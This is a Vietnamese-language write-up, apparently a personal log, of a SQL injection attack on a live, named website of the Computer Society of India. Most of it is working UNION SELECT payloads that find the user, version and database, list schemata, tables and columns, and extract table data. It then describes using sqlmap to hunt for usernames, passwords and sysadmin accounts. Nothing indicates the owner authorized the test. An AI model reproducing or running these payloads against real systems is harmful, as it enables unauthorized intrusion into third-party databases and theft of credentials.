 # TỔNG QUAN # 

Kiểm tra trên web "Computer Society of India" `https://csi-india.org/news/index.php?id=18`

![image](https://github.com/user-attachments/assets/089b7ff5-3f94-4575-a9ee-1e0876ec59a3)

## CÁC BƯỚC

* [Dò tìm số cột](#dò-tìm-số-cột)
* [Kiểm tra database, version, user](#kiểm-tra-database-version-user)
* [Trích xuất cơ sở dữ liệu](#trích-xuất-cơ-sở-dữ-liệu)
* [Sử dụng `sqlmap`](#sử-dụng-sqlmap)

## Dò tìm số cột

![image](https://github.com/user-attachments/assets/1db5d0ae-72f2-432c-abeb-fb572dd2c1ea)

![image](https://github.com/user-attachments/assets/84374454-20c5-4db2-a2c6-23d905c49bcf)

![image](https://github.com/user-attachments/assets/cccfee89-cf9f-4c3a-be8a-fc30af8329e1)

## Kiểm tra database, version, user 

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,user(),5,6,7,8`

![image](https://github.com/user-attachments/assets/75227e5b-953a-48dd-a56a-c49d4b1b8725)

https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,version(),5,6,7,8

![image](https://github.com/user-attachments/assets/e623bf1a-727f-4a23-b0a4-2b80b280a6cb)

https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,database(),5,6,7,8

![image](https://github.com/user-attachments/assets/12a78158-d713-44f4-add8-74f6ae91d9fa)

## Trích xuất cơ sở dữ liệu

**1. Liệt kê các database**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,group_concat(0x7c,schema_name,0x7c),5,6,7,8+from+information_schema.schemata`

![image](https://github.com/user-attachments/assets/5780aae7-dc2c-482a-aea2-d3aa8ae689f1)

**2. Liệt kê các bảng**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,group_concat(0x7c,table_name,0x7c),5,6,7,8+from+information_schema.tables+where+table_schema='csiindia_portal'`

![image](https://github.com/user-attachments/assets/182e61f9-cd2a-41c6-850b-e4eb2154eecf)

**3. Liệt kê các cột trong bảng**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,group_concat(0x7c,column_name,0x7c),5,6,7,8+from+information_schema.columns+where+table_name='category'`

![image](https://github.com/user-attachments/assets/5af91210-33b2-48bd-82c6-bb20f117567b)

**4. Trích xuất dữ liệu bất kì**

`https://csi-india.org/news/index.php?id=-18+UNION+SELECT+1,2,3,cat_name,5,6,7,8+from+category`

![image](https://github.com/user-attachments/assets/bd7fcad5-1cec-4fb6-b54d-4b3411818224)

## Sử dụng `sqlmap`

**1. Trích xuất database:**

![image](https://github.com/user-attachments/assets/9eb20627-fe43-4f2d-a951-70ad997a8b40)

**2. Tìm kiếm thông tin về username, password, tài khoản sysadmin**

![image](https://github.com/user-attachments/assets/5175361d-dbfc-4e58-816b-a83455ffbf2f)

![image](https://github.com/user-attachments/assets/e6f0927a-96ea-4981-8369-1ce2c3304d79)

![image](https://github.com/user-attachments/assets/0f51fac4-636d-4fd7-9484-61a5228846b6)

![image](https://github.com/user-attachments/assets/8e4d4498-7349-4421-8d82-4454e266ccb6)



